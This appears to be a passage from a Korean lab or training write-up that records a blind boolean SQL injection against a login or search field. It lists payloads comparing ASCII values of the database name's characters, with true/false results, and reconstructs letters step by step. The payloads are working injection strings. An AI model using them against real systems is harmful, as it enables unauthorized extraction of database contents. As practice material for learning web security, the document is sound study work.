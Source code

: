 
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 63) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 95) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 111) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 103) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 99) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 97) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) = 98) #**
-> O  
-> 찾은 글자: bxx xxx xxx  
-> 예측한 글자: bxx xxx xxx  

---

1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 96) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 112) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 104) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 108) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 106) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) > 105) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 3, 1)) = 105) #**
-> O  
-> 찾은 글자: bxi xxx xxx  
-> 예측한 글자: bxi xxx xxx  

---

1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 64) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 96) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 112) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 104) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 100) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) > 98) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) = 99) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 5, 1)) = 100) #**
-> O  
-> 찾은 글자: bxi xdx xxx  
-> 예측한 글자: blind xxxx  

---